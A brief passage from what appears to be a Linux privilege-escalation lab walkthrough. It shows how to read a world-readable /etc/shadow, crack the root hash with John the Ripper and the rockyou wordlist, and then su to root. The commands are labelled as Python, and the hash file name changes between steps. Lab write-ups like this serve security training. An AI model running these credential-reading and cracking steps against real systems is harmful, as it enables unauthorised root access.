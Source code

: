 The /etc/shadow file contains user password hashes and is usually readable only by the root user.

**Note that the /etc/shadow file on the VM is world-readable:**
```python
ls -l /etc/shadow
```

**View the contents of the /etc/shadow file:**
```python
cat /etc/shadow
```
- Each line of the file represents a user.
- A user's password hash (if they have one) can be found between the first and second colons (:) of each line.
![[linux_privesc12.png]]

**Save the root user's hash to a file called hash.txt on your Kali VM and use john the ripper to crack it**
```python
john --wordlist=/usr/share/wordlists/rockyou.txt temp_hash.txt
```

**Switch to the root user, using the cracked password:**
```python
su root
```

